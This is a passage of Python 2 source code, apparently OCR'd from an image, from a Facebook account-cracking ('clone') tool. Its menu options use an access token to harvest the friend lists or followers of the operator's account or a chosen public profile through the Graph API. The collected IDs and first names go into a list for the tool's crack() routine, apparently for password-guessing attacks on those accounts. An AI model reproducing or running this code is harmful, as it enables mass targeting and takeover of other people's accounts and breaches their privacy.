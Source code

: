 	cps=[]
	if select=="1":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Frienlist\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for s in z["data"]:
			uid=s['id']
			na=s['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	elif select =="2":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Public ID\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		idt = raw_input("\033[1;97m[+]\033[1;93m Input ID/Username :\033[1;96m ")
		print("\033[1;97m--------------------------------------------------")
		os.system("clear")
		print logo
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			print("[✓] Account Name : "+q["name"])
		except KeyError:
			print('\n[!] Error 404 . ID Link '+idt+' Have Privacy On Friendlist OR IS Not Valid')
			raw_input("\nPress Enter To Back ")
			crack()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid=i['id']
			na=i['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	elif select =="3":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Followers\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		idt = raw_input("\033[1;97m[+]\033[1;93m Input ID/Username :\033[1;96m ")
		print("\033[1;97m--------------------------------------------------")
		os.system("clear")
		print logo
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			print("[✓] Account Name : "+q["name"])
		except KeyError:
			print('\n[!] Error 404 . ID Link '+idt+' Donot Have Followers OR IS Not Valid')
			raw_input("\nPress Enter To Back ")
			crack()
		r = requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=5000", headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid=i['id']
			na=i['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	   